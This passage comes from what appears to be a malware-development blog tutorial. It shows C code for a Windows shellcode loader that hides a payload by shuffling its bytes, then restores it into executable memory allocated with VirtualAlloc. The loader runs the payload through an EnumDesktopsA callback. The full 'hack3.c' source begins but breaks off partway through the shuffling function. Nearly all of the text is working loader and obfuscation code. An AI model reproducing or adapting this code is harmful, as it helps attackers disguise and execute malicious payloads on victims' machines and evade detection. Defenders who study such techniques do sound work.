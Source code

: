 ```cpp
  // allocate memory and copy deshuffled data
  LPVOID mem = VirtualAlloc(NULL, shuffled_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem == NULL) {
    perror("VirtualAlloc failed");
    free(deshuffled_data);
    return 1;
  }
  RtlMoveMemory(mem, deshuffled_data, shuffled_size);

  // run the deshuffled payload
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  // free allocated memory
  free(deshuffled_data);
  return 0;
}
```

As you can see, for simplicity, we just run payload via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html) function.        

Full source code looks like this (`hack3.c`):     

```cpp
/*
 * hack3.c
 * deshuffle bytes in payload and run
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/30/malware-trick-43.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <windows.h>

// function to shuffle the bytes of a file
void shuffle_bytes(const char *input_file, const char *output_file, unsigned int seed) {
  // read the input file as bytes
  FILE *in = fopen(input_file, "rb");
  if (in == NULL) {
    perror("fopen input file failed");
    return;
  }

  // get the size of the file
  fseek(in, 0, SEEK_END);
  size_t size = ftell(in);
  fseek(in, 0, SEEK_SET);

  // allocate memory for the file data
  char *data = (char *)malloc(size);
  if (data == NULL) {
    perror("malloc failed");
    fclose(in);
    return;
  }

  // read the file data into the buffer
  if (fread(data, 1, size, in) != size) {
    perror("fread failed");
    fclose(in);
    free(data);
    return;
```